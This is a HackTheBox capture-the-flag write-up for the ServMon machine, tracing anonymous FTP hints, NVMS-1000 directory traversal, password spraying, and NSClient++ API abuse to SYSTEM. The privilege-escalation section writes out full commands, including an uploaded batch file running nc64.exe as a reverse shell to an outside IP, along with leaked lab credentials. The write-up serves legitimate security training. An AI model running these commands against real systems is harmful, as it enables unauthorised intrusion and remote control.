

# ServMon -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** ServMon (HackTheBox)
**Author:** dsec
**Date:** 2025-07-04

---

## TL;DR

### Anonymous FTP revealed hints about a password file on Nathan's desktop. Directory traversal via NVMS-1000 leaked passwords. SSH + NSClient++ API exploitation for SYSTEM.

---

## Target info

- Host: `10.129.227.77`
- Services discovered: `21/tcp (ftp)`, `22/tcp (ssh)`, `80/tcp (http)`, `135/tcp (msrpc)`, `139/tcp (netbios)`, `445/tcp (smb)`, `5666/tcp`, `6063/tcp`, `6699/tcp`, `8443/tcp (NSClient++)`

---

## Enumeration

Nmap showed anonymous FTP login was allowed. Found two files:

**Confidential.txt:**

> Nathan, I left your Passwords.txt file on your Desktop. Please remove this once you have edited it yourself and place it back into the secure folder. Regards, Nadine

**Notes to do.txt:**

1. Change the password for NVMS - Complete
2. Lock down the NSClient Access - Complete
3. Upload the passwords
4. Remove public access to NVMS
5. Place the secret files in SharePoint

---

## Foothold

Directory traversal on NVMS-1000 (port 80) via Burp:



Retrieved passwords from Nathan's desktop:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Sprayed credentials:

```bash
nxc smb 10.129.227.77 -u users.txt -p passwords.txt --shares
```

Hit: `Nadine:L1k3B1gBut7s@W0rk`

---

## Privilege escalation

SSH'd in as Nadine. Found NSClient++ and retrieved its password:

```
nscp web -- password --display
```

Current password: `ew2x6SsGTxjRwXOT`

Port-forwarded to access NSClient++ web interface:

```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.129.227.77
```

Uploaded a malicious script via the API:

```bash
curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Users\Nadine\nc64.exe 10.10.14.142 443 -e cmd.exe"
```

Triggered execution:

```bash
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=3m
```

Received SYSTEM shell.

---

## Lessons & takeaways

- Anonymous FTP often contains breadcrumbs pointing to sensitive files
- Directory traversal on web management interfaces (NVMS-1000) can leak credential files
- NSClient++ API can be abused for command execution when you have the admin password
---
